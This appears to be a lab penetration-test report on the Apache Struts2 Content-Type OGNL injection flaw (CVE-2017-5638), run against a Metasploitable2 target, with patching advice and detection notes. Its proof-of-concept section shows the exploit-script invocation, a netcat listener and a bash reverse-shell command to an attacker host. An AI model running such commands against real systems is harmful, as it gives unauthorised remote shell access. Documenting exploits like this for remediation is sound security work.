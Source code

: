 # Apache Struts2 RCE Exploitation Report (CVE-2017-5638)

## Vulnerability Report: Apache Struts2 Content-Type OGNL Injection (CVE-2017-5638)

* **Severity**: Critical
* **Tool Used**: Manual Python PoC Script, Burp Suite
* **CVE**: CVE-2017-5638

---

## Impact

This vulnerability allows remote attackers to execute arbitrary commands on a system running a vulnerable version of Apache Struts2. The issue is due to improper handling of the `Content-Type` header, allowing OGNL expression injection.

If exploited, this can lead to full remote code execution and potentially complete system compromise.

---

## Proof of Concept

### Target

* **Victim Machine (Metasploitable2)**: `192.168.x.x`
* **Attacker Machine (Kali Linux)**: `192.168.x.x`

### Exploit Script

A Python proof-of-concept script was used to inject commands via a malicious `Content-Type` header.

```bash
python3 struts2_rce.py http://<viticm_IP>:8080/struts2-showcase/index.action "id"
```

### Reverse Shell

A reverse shell was triggered using:

```bash
# Attacker
nc -lvnp 4444

# Exploit Command
python3 struts2_rce.py http://<viticm_ip>:8080/struts2-showcase/index.action "bash -i >& /dev/tcp/<attacker_IP>/4444 0>&1"
```

---

## Recommendation

* Upgrade to a patched version of Apache Struts2 (>= 2.3.32 or 2.5.10.1)
* Use a WAF or IDS/IPS to block malicious payloads
* Sanitize and validate HTTP headers
* Perform regular vulnerability scanning and patch management

---

## Supporting Screenshots

1. Screenshot of PoC execution with command output
2. Screenshot of netcat listener receiving reverse shell
3. Screenshot of shell access to victim system

---

## Detection Notes (SIEM or Netcat Monitoring)

* Monitor HTTP traffic with suspicious `Content-Type` headers
* Alert on outgoing traffic to uncommon ports (like 4444)
* Track bash or cmd processes spawned by Java-related services
